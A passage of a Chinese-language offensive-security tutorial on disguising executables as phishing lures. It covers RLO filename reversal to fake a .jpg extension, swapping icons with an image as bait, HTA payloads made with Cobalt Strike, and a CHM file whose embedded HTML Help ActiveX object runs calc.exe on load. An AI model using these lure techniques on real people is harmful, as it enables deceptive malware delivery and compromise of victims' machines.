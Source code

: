 

#### 1.2 文件名反转

RLO，即Right-to-Left Override，我们可以在⽂件名中插⼊此类unicode字符，来达到⽂件名反转的效果。

以 `cmd.exe` 来举例，

将其重命名为 `cmdgpj.exe` ,然后在 cmd 与 g 之间右键，看图操作

[![slYhGwwwj.md.png](https://s3.ax1x.com/2021/01/10/slYhGj.md.png)](https://imgchr.com/i/slYhGj)

 

ok，此时已经变成了 以 jpg 结尾的了。但是双击运行还是 exe 格式运行的。

[![slYoMq.png](https://s3.ax1x.com/2021/01/10/slYoMq.png)](https://imgchr.com/i/slYoMq)

再利用 `ResourceHacker` 修改图标。

找个小姐姐图片转换为 ico 格式。

```
http://www.bitbug.net/
```

[![slthTO.png](https://s3.ax1x.com/2021/01/10/slthTO.png)](https://imgchr.com/i/slthTO)

如图，双击实际上还是运行的cmd。

#### 1.3 HTA

HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件，本身就是html应用程序，双击就能运行，却比普通网页权限大得多，它具有桌面程序的所有权限。

制作：利用 cs

 attacks——>packages——>HTML application

选择powershell 生成。

#### 1.4 CHM

CHM（Compiled Help Manual）即“已编译的帮助文件”。它是微软新一代的帮助文件格式，利用HTML作源文，把帮助内容以类似数据库的形式编译储存。

制作CHM需要用到一个工具 [EasyCHM](http://www.etextwizard.com/)

**CHM制作过程：**
 创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个index.html文件，在两个文件夹内部创建各创建一个index.html文件。

[![slauO1.md.png](https://s3.ax1x.com/2021/01/10/slauO1.md.png)](https://imgchr.com/i/slauO1)

将下列代码放入 `index.html`:

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```
